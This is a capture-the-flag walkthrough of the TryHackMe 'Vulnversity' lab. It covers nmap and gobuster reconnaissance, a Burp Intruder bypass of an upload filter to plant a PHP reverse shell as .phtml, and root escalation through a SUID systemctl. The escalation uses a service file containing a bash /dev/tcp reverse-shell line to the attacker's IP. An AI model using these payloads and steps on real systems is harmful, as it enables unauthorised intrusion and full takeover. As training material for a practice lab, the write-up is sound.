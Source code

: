 # VulnUniversity

- [Tools](#tools)
- [Deploy the machine](#deploy-the-machine)
- [Reconnaissance](#reconnaissance)
- [Locating directories using Gobuster](#locating-directories-using-gobuster)
- [Privilege Escalation](#privilege-escalation)

Room Link: [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

## Tools 

- [NMap](https://nmap.org/download) 
- [Gobuster](https://github.com/OJ/gobuster) 
- [Burp Intruder](https://portswigger.net/burp) 
- [Burp Proxy Toggle Extension](https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/)

## Deploy the machine 

- Deploy The Machine by clicking Start The Machine
- Download ovpn file and connect to the network using command `sudo openvpn --config username.ovpn`.

## Reconnaissance

- Scan ports of the machine with given command `nmap -sV 10.10.65.81`
Output of the command:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-26 09:55 IST
Nmap scan report for 10.10.135.130
Host is up (0.20s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.77 seconds
```

- Question `how many ports are open?` Answer `6`
- Question `What version of the squid proxy is running on the machine?` Answer `3.5.12`
- Question `How many ports will Nmap scan if the flag -p-400 was used?` Answer `400`
- Question `What is the most likely operating system this machine is running?` Answer `Ubuntu`
- Question `What port is the web server running on?` Answer `3333`
- Question `What is the flag for enabling verbose mode using Nmap?` Answer `-v`

## Locating directories using Gobuster 

   
- Port 3333 is http server, So web interface looks like that http://10.10.65.81:3333
- We can run directory busting tool gobuster as per given command with our own wordlist `gobuster dir -u http://10.10.65.81:3333 -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt`
Output of the command: 

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.65.81:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.65.81:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.65.81:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.65.81:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.65.81:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.65.81:3333/internal/]
Progress: 9932 / 1273834 (0.78%)
```

- Question `What is the directory that has an upload form page?` Answer `/internal/`

## Compromise the Webserver 

- Question `What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.` Answer `.php`
- Run burpsuite as per instruction and user intruder. Use firefox extension, https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/
- Question `Run this attack, what extension is allowed?` Answer `.phtml`
- Now we need to make our shell with given instruction using https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php. Just replace ip to our netcat listening ip (tun0) and file extension to `.phtml`. Use `nc -lvnp 1234` to get shell.
- Now just upload the file and open http://10.10.65.81:3333/internal/uploads/ and click on the shell to get reverse shell.
- Question `What is the name of the user who manages the webserver?` Answer `bill`. Use `ls /home` command to get username.
- Question `What is the user flag?` Answer `********************************` (32 alphanumeric characters). Command used `cat /home/bill/user.txt`

## Privilege Escalation 

- To check suid permission files, we can use `find / -perm /4000 2> /dev/null`.
- Question `On the system, search for all SUID files. Which file stands out?` Answer `/bin/systemctl` Because systemctl don't have suid permission normally.
- Now we can start rooting the server.
- At first I created a file on my machine named ZishanAdThander.service (with my ip, you can user your ip)

```bash
[Unit]
Description=ZishanAdThandar

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.17.102.105/1337 0>&1'

[Install]
WantedBy=multi-user.target
```

- Now started web server on my machine using `python3 -m http.server 7860`
- On the reverse shell, moved to `/tmp` directory using `cd /tmp` command. Then uploaded the file with `wget http://10.17.102.105:7860/ZishanAdThandar.service` command.
- Now we can add the service using `/bin/systemctl enable /tmp/ZishanAdThandar.service` command on reverse shell.
- Started netcat listner on the given port with `nc -lvnp 1337`.
- Now we need can run the command `/bin/systemctl start ZishanAdThandar` to start the service and immediately we will get reverse shell as root on another netcat listner.
- Question `Become root and get the last flag (/root/root.txt)` Answer `********************************` (32 alphanumeric characters). Command used `cat /root/root.txt`

    
Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)




